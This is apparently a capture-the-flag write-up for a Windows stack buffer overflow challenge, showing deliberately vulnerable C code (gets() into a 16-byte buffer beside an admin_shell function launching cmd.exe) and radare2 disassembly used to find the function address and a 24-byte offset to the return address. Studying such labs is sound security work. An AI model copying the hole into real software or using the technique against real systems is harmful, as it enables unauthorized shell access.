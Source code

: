 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <ctype.h>
 
#define DEFAULT_LEN 16
 
void admin_shell(void)
{
        system("C:\\Windows\\system32\\cmd.exe");
}
 
int main(void)
{
        char buff[DEFAULT_LEN] = {0};
 
        gets(buff);
        for (int i = 0; i < DEFAULT_LEN; i++) {
                buff[i] = toupper(buff[i]);
        }
        printf("%s\n", buff);
}
```

Using radare2 to get address of admin_shell and main:

```c
app-systeme-ch72@challenge05:~$ radare2.exe ch72.exe
[0x00401ad5]> / C:\\Windows\\system32\\cmd.exe\0                                                                                                                                                                                          
Searching 28 bytes in [0x401000-0x41e000]
hits: 1                                                                                                                                                                                                                                    
0x0041b000 hit2_0 .C:\\Windows\\system32\\cmd.exe\u0000%s.
[0x00401ad5]> /c 41b000                                                                                                                                                                                                                    
0x00401003   # 5: push str.C:__Windows__system32__cmd.exe
[0x00401347]> s 0x401000                                                                                                                                                                                                                  
[0x00401000]> pd                                                                                                                                                                                                               
           ;-- section..text:
           0x00401000      55             push ebp                    ; [00] -r-x section size 76288 named .text
           0x00401001      8bec           mov ebp, esp
           0x00401003      6800b04100     push str.C:__Windows__system32__cmd.exe ; section..data ; 0x41b000 ; "C:\Windows\system32\cmd.exe"
           0x00401008      e8bf2b0000     call 0x403bcc
           0x0040100d      83c404         add esp, 4
           0x00401010      5d             pop ebp
           0x00401011      c3             ret
           0x00401012      cc             int3
           0x00401013      cc             int3
           0x00401014      cc             int3
[...]
```

/ C:\Windows\system32\cmd.exe\0 to search address of the string is 0x0041b000
<br> /c 41b000 to get all references to that address and see the instruction push at 0x00401003
<br> Next, we s main to see main code to determinate what is the size we need to overflow and overwrites the return address

```c
;-- main:
           0x00401020      55             push ebp
           0x00401021      8bec           mov ebp, esp
           0x00401023      83ec14         sub esp, 0x14
           0x00401026      c645ec00       mov byte [ebp - 0x14], 0
           0x0040102a      33c0           xor eax, eax
           0x0040102c      8945ed         mov dword [ebp - 0x13], eax
           0x0040102f      8945f1         mov dword [ebp - 0xf], eax
           0x00401032      8945f5         mov dword [ebp - 0xb], eax
           0x00401035      668945f9       mov word [ebp - 7], ax
           0x00401039      8845fb         mov byte [ebp - 5], al
           0x0040103c      8d4dec         lea ecx, [ebp - 0x14]
           0x0040103f      51             push ecx
```
At start of main code we can see the stack frame allocation. The size allocated to it is 0x14 (20) bytes. But at first instruction the main function pushes the EBP register (4 bytes). If we sum, we have 24 bytes before the return address.

Result:
<br>
![](PE_BO_1.png)






